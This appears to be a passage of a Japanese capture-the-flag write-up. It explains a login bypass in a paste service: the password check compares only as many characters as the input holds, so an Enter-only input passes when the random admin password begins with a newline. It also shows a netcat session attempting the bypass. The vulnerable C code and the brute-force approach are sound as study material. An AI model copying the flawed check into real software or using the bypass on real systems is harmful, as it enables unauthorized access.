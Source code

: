 ```c
}
```

ログイン認証の際には，action_login()で入力文字列とパスワードが比較される．
このとき，strlen(line_buffer)で**入力文字列の文字数分**しか比較されないようになっている．
fgets(・)では，最後にEnterを押したとき，改行文字も入力されるので，
何も入力せずEnterを押すと，文字数 1 で改行文字のみとなる．  
よって，改行文字から始まるadminパスワードがランダムに生成されるまでブルートフォース攻撃を行うことで，
ログイン認証を突破できる．

```c
void action_login() {
    // Currently only admin login
    read_to_buffer("Password?");
    unsigned long length = strlen(line_buffer);
    for (unsigned long i = 0; i < length && i < 512; i++) {
        if (line_buffer[i] != admin_password[i]) {
            printf("Wrong password!\n");
            return;
        }
    }

    strcpy(current_user.username, "admin");
    current_user.userId = 0;
    current_user.flags = 0xFFFFFFFF;
}

void read_to_buffer(const char* description) {
    printf("Enter %s: ", description);
    fgets(line_buffer, 256, stdin);
}
```

つまり，adminパスワードが改行文字から始まらない場合は，Wrong password!となるが，
adminパスワードが改行文字から始まる場合は，Enterのみでログイン認証が成功する．

```
$ nc ~
== proof-of-work: disabled ==

===== Service =====
1) Create new Paste
2) Update a Paste
3) Show a Paste
4) List all Pastes
5) Login / Register
6) Exit

> 5
Registration is currently closed.

Enter Password?:
Wrong password!

===== Service =====
1) Create new Paste
2) Update a Paste
3) Show a Paste
4) List all Pastes
5) Login / Register
6) Exit

> 6

$ nc ~
```